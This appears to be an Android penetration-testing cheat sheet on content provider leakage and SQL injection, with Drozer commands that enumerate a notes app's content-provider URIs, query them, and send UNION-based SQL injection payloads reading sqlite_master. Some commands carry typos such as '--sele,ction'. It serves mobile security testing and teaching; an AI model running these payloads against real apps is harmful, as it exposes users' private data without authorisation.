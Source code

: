 # **Improper Error Handling** #

Error handling is not properly done, and the API is throwing database/server errors specific to the crafted request, it is possible to craft attacks using those errors.

### **Content Provider Leakage** ###

According to Google Android Security application can't share data with another application until it's allow to share. If application assign content:// to any application that means it's provide content to particular application.

#### **Content provider leakage** ####

By using Drozer to perform various attacks on content providers. We can find out the package name of our target application using the command shown as follows:

1. Run app.package.list to list the packages installed on the device:
```
#run app.package.list -f {appname}
```
2. Run app.package.attacksurface to analyze the attack surface of a specific package (e.g., com.sonyericsson.notes):
```
#run app.package.attacksurface com.sonyericsson.notes

```
3. Run scanner.provider.finduris to find content provider URIs associated with a package:
```
#run scanner.provider.finduris -a [package name]
```
4. Example usage of scanner.provider.finduris with a specific package (com.sonyericsson.notes):
```
#run scanner.provider.finduris -a com.sonyericsson.notes
```
5. Run app.provider.query to query a content provider URI
```
#run app.provider.query [content provider URI]
```
6. Example usage of app.provider.query with a specific content provider URI (content://com.sonyericsson.notes.provider):
```
#run app.provider.query content://com.sonyericsson.notes.provider
```
7. Run app.provider.query with the --vertical option for a vertical view:
```
#run app.provider.query [URI] --vertical (For Vertical view)
```
8. Example usage of app.provider.query with a specific URI (content://com.sonyericsson.notes.provider.Note/notes/) and the --vertical option:
```
#run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --vertical
```

#### **Attacking SQL Injection using Drozer** ####

1. \#run scanner.provider.injection -a \[package name]
2. \#run scanner.provider.injection -a com.sonyericsson.notes
3. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "{sqlpayload}"
4. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1"
5. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --sele,ction "\_id=1=1)union select 1,2,3,4,5,6,7,8,9,10,11,12, 13,14 from sqlite\_master where (1=1"
6. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1=1)union select 1,2,3,4,sqlite\_ version(),6,7,8,9,10,1112,13,14 from sqlite\_master where (1=1"
